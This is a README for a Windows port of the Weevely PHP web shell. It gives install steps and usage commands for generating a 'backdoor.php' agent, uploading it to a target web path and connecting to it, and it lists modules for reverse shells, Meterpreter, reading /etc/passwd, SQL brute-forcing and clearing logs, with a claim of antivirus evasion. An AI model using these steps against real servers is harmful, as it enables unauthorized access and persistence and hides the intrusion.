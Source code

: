 Weevely for Windows 
=======

## Name

Weevely - Weaponized web shell

  
## Description

this `Weevely` is for security researcher that using windows OS that can't install weevely on their PC/laptop 

### what is weevely?

Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

## Needed

- [Python 2.7.17](https://www.python.org/downloads/release/python-2717/)

## Requirements/Module

- PyYAML
- python-dateutil
- PySocks
- win_inet_pton
- pyreadline
- pyOpenSSL
- prettytable

## Installation

Run the following command on your terminal

1. git clone https://github.com/PhHitachi/Weevely.git
2. cd Weevely
3. `pip install -r requirements.txt`
4. `python weevely.py` or `./weevely.py`

<b>Note</b>: if you face this error on step 3:

```'pip' is not recognized as an internal or external command,
operable program or batch file.
```

This the alternative command by installing python module
C:\Python\Scripts\pip.exe install <module>

by Installing `requirements` run the following command:

`C:\Python\Scripts\pip.exe install -r requirements.txt` 

 if this is your first time by install the `python` you need install `request` module using 
 `C:\Python\Scripts\pip.exe install request` or `pip install request`
 the request module is not included on `requirements.txt`


## Usage

```
weevely generate <password> <path>
weevely <URL> <password>
```
for example : weevely generate `1337` backdoor.php

now you need to upload your `backdoor.php` on target example this that path: 
`www.example.com/images/uploads/backdoor.php`

for connecting on your terminal follow this command

$ `python weevely.py www.example.com/images/uploads/backdoor.php 1337`


Read the [Getting Started](https://github.com/epinna/weevely3/wiki/Getting-Started) page to generate an agent and connect to it.

Browse the [Wiki](https://github.com/epinna/weevely3/wiki) to read examples and use cases.

### Features

* Shell access to the target
* SQL console pivoting on the target
* HTTP/HTTPS proxy to browse through the target
* Upload and download files
* Spawn reverse and direct TCP shells
* Audit remote target security
* Run Meterpreter payloads
* Port scan pivoting on target
* Mount the remote filesystem
* Bruteforce SQL accounts pivoting on the target

### Agent

The agent is a small, polymorphic PHP script hardly detected by AV and the communication protocol is obfuscated within HTTP requests.

### Modules

| Module                      | Description
| --------------------------- | ------------------------------------------ |
| :audit_filesystem           | Audit the file system for weak permissions.
| :audit_suidsgid             |  Find files with SUID or SGID flags.
| :audit_disablefunctionbypass|  Bypass disable_function restrictions with mod_cgi and .htaccess.
| :audit_etcpasswd            |  Read /etc/passwd with different techniques.
| :audit_phpconf              |  Audit PHP configuration.
| :shell_sh                   |  Execute shell commands.
| :shell_su                   |  Execute commands with su.
| :shell_php                  |  Execute PHP commands.
| :system_extensions          |  Collect PHP and webserver extension list.
| :system_info                |  Collect system information.
| :system_procs               |  List running processes.
| :backdoor_reversetcp        |  Execute a reverse TCP shell.
| :backdoor_tcp               |  Spawn a shell on a TCP port.
| :backdoor_meterpreter       |  Start a meterpreter session.
| :bruteforce_sql             |  Bruteforce SQL database.
| :file_gzip                  |  Compress or expand gzip files.
| :file_clearlog              |  Remove string from a file.
| :file_check                 |  Get attributes and permissions of a file.
| :file_upload                |  Upload file to remote filesystem.
| :file_webdownload           |  Download an URL.
| :file_tar                   |  Compress or expand tar archives.
| :file_download              |  Download file from remote filesystem.
| :file_bzip2                 |  Compress or expand bzip2 files.
| :file_edit                  |  Edit remote file on a local editor.
| :file_grep                  |  Print lines matching a pattern in multiple files.
| :file_ls                    |  List directory content.
| :file_cp                    |  Copy single file.
| :file_rm                    |  Remove remote file.
| :file_upload2web            |  Upload file automatically to a web folder and get corresponding URL.
| :file_zip                   |  Compress or expand zip files.
| :file_touch                 |  Change file timestamp.
| :file_find                  |  Find files with given names and attributes.
| :file_mount                 |  Mount remote filesystem using HTTPfs.
| :file_enum                  |  Check existence and permissions of a list of paths.
| :file_read                  |  Read remote file from the remote filesystem.
| :file_cd                    |  Change current working directory.
| :sql_console                |  Execute SQL query or run console.
| :sql_dump                   |  Multi dbms mysqldump replacement.
| :net_mail                   |  Send mail.
| :net_phpproxy               |  Install PHP proxy on the target.
| :net_curl                   |  Perform a curl-like HTTP request.
| :net_proxy                  |  Run local proxy to pivot HTTP/HTTPS browsing through the target.
| :net_scan                   |  TCP Port scan.
| :net_ifconfig               |  Get network interfaces addresses.

### Development

Weevely is easily extendible to implement internal audit, account enumerator, sensitive data scraper, network scanner, make the modules work as a HTTP or SQL client and do a whole lot of other cool stuff.
